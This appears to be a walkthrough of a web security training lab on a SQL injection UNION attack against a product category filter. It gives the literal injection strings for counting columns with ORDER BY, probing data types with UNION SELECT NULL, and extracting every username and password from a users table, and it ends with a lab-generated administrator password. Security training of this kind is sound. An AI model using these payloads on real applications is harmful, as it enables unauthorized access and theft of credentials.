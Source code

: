 # Description:
 
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

# Analysis:

SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login
as the administrator user.

### We need to make three steps to resolve this lab, two preliminary and one retrieving the information that we need:
    1) - Determine the number of columns that the vulnerable query is using.
        query = ' order by 1--
        query = ' order by 2--
        query = ' order by 3-- 
            -> err -> There are two columns because it failed at three.
        
        Number of columns: 2.
    
    
    2) - Determine the data type of the columns.
        query thas is being made to the backend: 
            select a, b from producst where category='Gifts'
        
        query using the union attack:
            ' UNION select 'a', NULL--
            ' UNION select NULL, 'a'--

            Both columns are of data type string.
    
    3) - query:
        ' UNION select username, password from users--

        Now we have the administrator and the password:
            username: administrator
	        password: 7p147uglukj4zpgreb9q
